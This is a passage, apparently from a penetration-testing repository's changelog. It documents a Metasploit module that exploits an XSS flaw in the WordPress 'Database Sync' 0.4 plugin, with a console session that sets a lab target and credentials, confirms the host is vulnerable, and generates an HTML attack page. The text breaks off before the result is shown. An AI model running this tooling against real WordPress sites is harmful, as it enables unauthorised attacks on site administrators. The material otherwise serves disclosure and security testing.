

#### Add WordPress Plugin Database Sync XSS Vulnerability.

  Application: WordPress Plugin 'Database Sync' 0.4
  Homepage: https://wordpress.org/plugins/database-sync
  Source Code: https://downloads.wordpress.org/plugin/database-sync.0.4.zip
  References: https://wpvulndb.com/vulnerabilities/8127
  Active Install: +1.000

#### Vulnerable packages*
        
  0.4

#### Module

  [wp_database_sync_xss_scanner.rb](https://github.com/espreto/wpsploit/blob/master/modules/auxiliary/scanner/http/wordpress/wp_database_sync_xss_scanner.rb)
  
#### Usage:

##### Linux (Ubuntu 14.04.2 LTS):
```
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf>  use auxiliary/scanner/http/wp_database_sync_xss_scanner 
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  show options 

Module options (auxiliary/scanner/http/wp_database_sync_xss_scanner):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host
   WP_PASS                     no        A valid password
   WP_USER                     no        A valid username

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  info

       Name: WordPress Database Sync XSS Scanner
     Module: auxiliary/scanner/http/wp_database_sync_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-08-04

Provided by:
  Morten Nørtoft, Kenneth Jepsen & Mikkel Vej
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port
  TARGETURI  /                yes       The base path to the wordpress application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host
  WP_PASS                     no        A valid password
  WP_USER                     no        A valid username

Description:
  This module attempts to exploit an Cross-Site Scripting in Database 
  Sync Plugin for Wordpress, version 0.4 and likely prior in order if 
  the instance is vulnerable.

References:
  https://wpvulndb.com/vulnerabilities/8127
  https://packetstormsecurity.com/files/132907/

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set RHOSTS 10.10.10.20
RHOSTS => 10.10.10.20
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set WP_USER espreto
WP_USER => espreto
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set WP_PASS R@x0rP@55
WP_PASS => R@x0rP@55
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  check
[*] 10.10.10.20:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  run

[+] 10.10.10.20:80 - Vulnerable to Cross-Site Scripting the Database Sync 0.4 plugin for Wordpress
[+] Save in: /home/espreto/.msf4/local/script.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner) firefox /home/espreto/.msf4/local/script.html
```
This will open the browser:


